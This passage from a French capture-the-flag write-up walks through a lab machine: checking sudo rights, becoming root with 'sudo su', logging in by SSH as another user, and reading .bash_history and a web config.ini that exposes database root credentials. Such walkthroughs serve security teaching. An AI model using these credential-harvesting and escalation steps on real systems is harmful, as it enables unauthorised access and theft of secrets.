 Tiens donc, ne serait-ce pas le mot de passe de l'administrateur root dans le fichier ```.bash_history``` ?

```console
[achen@ctf4 ~]$ sudo -l
User achen may run the following commands on this host:
    (ALL) NOPASSWD: ALL

[achen@ctf4 ~]$ sudo su
[root@ctf4 achen]# 
[root@ctf4 achen]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=user_u:system_r:unconfined_t:SystemLow-SystemHigh
```

De toute façon, Andrew a tous les droits et peut passer root sans mot de passe. Au tour de Sally Orzek !

```console
root@blinils:~# ssh sorzek@192.168.15.131
BSD SSH 4.1
sorzek@192.168.15.131's password: 
Last login: Thu Dec  1 15:25:25 2016 from 192.168.56.1

[sorzek@ctf4 ~]$ cat .bash_history
ls /home
logout
ifconfig
/sbin/ifconfig
/sbin/ifconfig | grep inet
ls -lah /var/www/html
ls /home
ls /home/achen
ls /home/jdurbin
ls /home/jdurbin/mail
mysql -u root
cd /var/www/html
ls
less index.html 
ls
ls conf
cat conf/config.ini 
mysql -u root -p 
su
su
```

Intéressant comme comportement.

Sally a consulté un fichier ```config.ini``` avant de se connecter à la base de données. Voyons voir ce que contient ce fichier.

```console
[sorzek@ctf4 ~]$ cd /var/www/html
[sorzek@ctf4 html]$ cat conf/config.ini
dbhost	=	localhost
db		=	ehks
dbuser	=	root
dbpass	=	database

[sorzek@ctf4 html]$
```
